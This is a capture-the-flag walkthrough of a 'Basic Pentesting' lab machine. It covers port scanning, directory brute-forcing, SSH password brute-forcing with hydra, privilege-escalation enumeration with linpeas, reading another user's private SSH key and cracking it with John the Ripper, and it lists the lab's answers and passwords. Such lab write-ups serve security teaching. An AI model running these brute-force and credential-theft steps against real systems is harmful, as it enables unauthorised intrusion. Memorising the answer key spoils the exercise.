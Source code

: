 # Basic Pentesting
## [Task 1] Web App Testing and Privilege Escalation 

### #1 Deploy the machine and connect to our network
Clicked on deploy
Connect to vpn
```
sudo openvpn yourOVPNfile.ovpn
```

Got the ip = <ip>

### #2 Find the services exposed by the machine
Run a nmap scan to get all the open ports

```
nmap -sV -sC <ip>
```
**Return:**
```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8009/tcp open  ajp13
8080/tcp open  http-proxy
```
### #3 What is the name of the hidden directory on the web server(enter name without /)?
To do this we can run dirbuster, supply a dir dictonary and press start.

```
dirbuster http://<ip>
```
**Return**
```
Dir	/icons/	403	465
Dir	/development/	200	1320
```
**Answer**

development

### #4 User brute-forcing to find the username & password

```
enum4linux -v <ip>
```
**Return:**
```
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```

### #5 What is the username?
After having a look in http://<ip>/development we found out that jan has a week password.

**Answer**

jan

### #6 What is the password?
Bruteforceing jan's week password using rockyou word list.
```
hydra -l jan -P rockyou.txt ssh://<ip>
ctrl+C
hydra -R (to speed it up)
```
Minimum Password Length: 5
[22][ssh] host: <ip>  login: jan   password: armando

**Answer**

armando

### #7 What service do you use to access the server(answer in abbreviation in all caps)?
Did a BF with hydra on SSH

**Answer**

SSH

### #8 Enumerate the machine to find any vectors for privilege escalation
Send the linpeas script to jan. Make it an excecutible. And run it.
```
scp linpeas.sh jan@<ip>:/dev/shm
chmod +x linpeas.sh
./linpeas.sh
```
Here we can see that we have access to read kay's **id_rsa** file.

### #9 What is the name of the other user you found(all lower case)?

**Answer**

kay

### #10 If you have found another user, what can you do with this information?
Copy the rsa key. Run ssh2john on that file so JohnTheRipper can read it. BF using rockyou word list.
```
cat /home/kay/.ssh/id_rsa
/usr/share/john/ssh2john.py
sudo john thm/BasicPentesting/id_rsa_kay_tojohn.txt --wordlist rockyou.txt
```
beeswax          (id_rsa_kay)

**Answer**

beeswax

### #11 What is the final password you obtain?
Login to the server using kay's credentials. Print out the pass.bak file.
```
cat pass.bak
```

**Answer**

heresareallystrongpasswordthatfollowsthepasswordpolicy$$
